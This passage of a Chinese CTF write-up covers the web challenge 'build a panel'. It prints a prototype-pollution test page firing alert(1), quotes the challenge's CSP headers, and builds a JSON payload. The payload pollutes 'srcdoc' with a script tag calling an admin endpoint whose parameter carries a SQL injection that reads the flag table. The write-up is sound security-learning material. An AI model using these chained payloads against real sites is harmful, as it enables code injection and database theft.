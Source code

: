我们可以做一个简单的测试：

```
&lt;!DOCTYPE html&gt;
&lt;html lang="en"&gt;
    &lt;head&gt;
        &lt;script&gt;
            const mergableTypes = ['boolean', 'string', 'number', 'bigint', 'symbol', 'undefined'];

      const safeDeepMerge = (target, source) =&gt; `{`
          for (const key in source) `{`
              if(!mergableTypes.includes(typeof source[key]) &amp;&amp; !mergableTypes.includes(typeof target[key]))`{`
                  if(key !== '__proto__')`{`
                      safeDeepMerge(target[key], source[key]);
                  `}`
              `}`else`{`
                  target[key] = source[key];
              `}`
          `}`
      `}`
            const userWidgets = JSON.parse(``{`"constructor": `{`"prototype": `{`"onload": "alert(1)"`}``}``}``);

            let toDisplayWidgets = `{`
                "welcome back to build a panel!": `{` type: "welcome" `}`,
            `}`;
            safeDeepMerge(toDisplayWidgets, userWidgets);
        &lt;/script&gt;
        &lt;script src="https://cdn.embedly.com/widgets/platform.js"&gt;&lt;/script&gt;
    &lt;/head&gt;

        &lt;blockquote class="reddit-card"&gt;
            &lt;a href="https://www.reddit.com/r/memes/comments/cg8smk/a_meme_about_blank_pages/"&gt;&lt;/a&gt;
        &lt;/blockquote&gt;
    &lt;/body&gt;
&lt;/html&gt;
```

成功触发弹窗，虽然测试成功了，但是我们仍然还要注意到题目还有 CSP 的存在…

```
res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' http://cdn.embedly.com/; style-src 'self' http://cdn.embedly.com/; connect-src 'self' https://www.reddit.com/comments/;");
res.setHeader("X-Frame-Options", "DENY");
```

基本上我们不可能直接执行 js 代码，除非在指定的 uri 里面有什么便捷的操作，然而我们再回顾一下怎么之前是获取 flag 的？是让 admin 帮我们执行一个请求而已，并不需要我们弄到 admin 的 cookie ，所以现在又清晰了一点，如果只需要发一个请求，我们是不是可以使用`srcdoc`来帮助我们直接放一个可以做请求的标签就可以了呢？因为我们要请求的 url 也在自己域名内，所以也可以满足 CSP 的要求。所以我们可以弄一个 script 标签，其 src 指向我们

```
JSON.stringify(`{`
  widgetName: 'constructor',
  widgetData: JSON.stringify(`{`
    prototype: `{`
      srcdoc: `&lt;script src="/admin/debug/add_widget?panelid=foo'%2C(SELECT%20flag%20from%20flag)%2C'%7B%22type%22%3A%22sss%22%7D')%3B--&amp;widgetname=1&amp;widgetdata=1"&gt;&lt;/script&gt;`
    `}`
  `}`) 
`}`)

//`{`"widgetName":"constructor","widgetData":"`{`\"prototype\":`{`\"srcdoc\":\"&lt;script src=\\\"/admin/debug/add_widget?panelid=foo'%2C(SELECT%20flag%20from%20flag)%2C'%7B%22type%22%3A%22sss%22%7D')%3B--&amp;widgetname=1&amp;widgetdata=1\\\"&gt;&lt;/script&gt;\"`}``}`"`}`
```